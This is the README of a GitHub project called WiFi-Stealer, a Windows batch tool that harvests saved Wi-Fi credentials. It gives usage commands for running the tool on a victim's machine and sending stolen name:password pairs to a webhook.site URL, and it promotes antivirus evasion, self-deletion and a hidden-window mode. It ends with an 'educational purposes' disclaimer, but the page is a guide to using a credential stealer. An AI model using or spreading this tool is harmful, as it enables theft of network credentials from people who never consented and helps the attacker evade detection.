 ## About
This is a simple batch program to grab Wi-Fi credentials from a local Windows machine.


## Features
- It does not need to be compiled.
- Runs on any windows machine (7/8.1/10/11).
- Undetectable by the default Windows Security AV (didn't test other AVs, but it should be also undetectable by them).
- Exfiltrated cedentials can be sent to a [webhook](https://webhook.site/) or saved locally to a txt file.
- The program has the ability to self-delete.
- To avoid problems caused by specials characters, the credentials are also stored in a hexadecimal value (in the form `name:password`).

**Note**: When using [Webhook.site](https://webhook.site/), please take the expiration of the URLs into consideration.


## Usage
There is a wide variety of ways to run the program. You can choose to use it in whatever way suits your needs. But usually, you either run this program on your machine or on a target machine. Here are some examples on how you can use the program:

### Running the program on a local machine (yours)
To run the script and save the credentials in the default `txt` file (this code line sets the default text file: `set "credsfile=creds.txt"`.), simply type:

```batch
> WiFi-Stealer.bat
```

Or you can specify a name for the `txt` file (or any file type), type this:

```batch
> WiFi-Stealer.bat --output "wifi-credentials.txt"
```

### Running the program on the target machine
Usually when running the program of a remote machine (program downloaded and executed by the victim) or a machine that you gained phisical access to, you need a way to retrieve the credentials. This is how you do it:

- Specify the webhook as an argument
Simply run the program and pass the URL of your webhook as an argument:

```batch
> WiFi-Stealer.bat --upload "https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Store the webhook inside the program
If you can't run the program from the command prompt or to avoid typing the url, ensure to save your webhook's URL in the variable `webhook` within the program. Another important step is to change the value of the `upload` variable from `0` to `1`. Once the program is executed, you will receive the credentials.

```batch
set upload=0

set "webhook=https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Another cool feature is to make the program delete itself when it's done. To do this, you can simply change `selfdelete` varibale inside the program from `0` to `1`.

- To run the program in stealth (hidden) mode, remove the `::` form this line in the program:

```batch
::@powershell -window Hidden -command ""   &:: Uncomment if you want to run the program in hidden mode
```


## Screenshots

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_1.png)

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_2.png)


## ⚠️ DISCLAIMER
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.